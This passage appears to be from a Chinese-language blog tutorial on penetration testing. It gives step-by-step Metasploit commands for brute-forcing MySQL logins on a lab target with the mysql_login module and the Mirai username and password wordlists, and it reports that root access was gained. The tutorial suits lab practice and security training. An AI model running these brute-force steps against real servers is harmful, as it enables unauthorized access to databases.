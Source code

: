 ### 选择mysql_login模块：

```
use  auxiliary/scanner/mysql/mysql_login
```

![img](https://img-blog.csdnimg.cn/20190330172801668.png)

### 查看mysql_login配置选项信息：

```
show options
```

![img](https://img-blog.csdnimg.cn/20190330172801670.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hlbm5pXzcxOQ==,size_16,color_FFFFFF,t_70)

### 设置RHOSTS参数为靶机IP：

```
set RHOSTS 192.168.88.137
```

![img](https://img-blog.csdnimg.cn/20190330172801827.png)

### 设置用户名字典，使用系统字典，也可以指定自己创建的用户字典：

```
set USER_FILE /usr/share/metasploit-framework/data/wordlists/mirai_user.txt
```

![img](https://img-blog.csdnimg.cn/20190330172801674.png)

### 设置密码字典，使用系统字典，也可以指定自己创建的密码字典：

```
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/mirai_pass.txt
```

![img](https://img-blog.csdnimg.cn/20190330172801679.png)

### 执行攻击：

```
exploit
```

![img](https://img-blog.csdnimg.cn/20190330172801696.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hlbm5pXzcxOQ==,size_16,color_FFFFFF,t_70)

![img](https://img-blog.csdnimg.cn/20190330172801699.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hlbm5pXzcxOQ==,size_16,color_FFFFFF,t_70)

获取用户名为root，用户为root，与初始设置的mysql值一致，至此成功获取mysql的root用户的登录权限。



## Telnet服务扫描
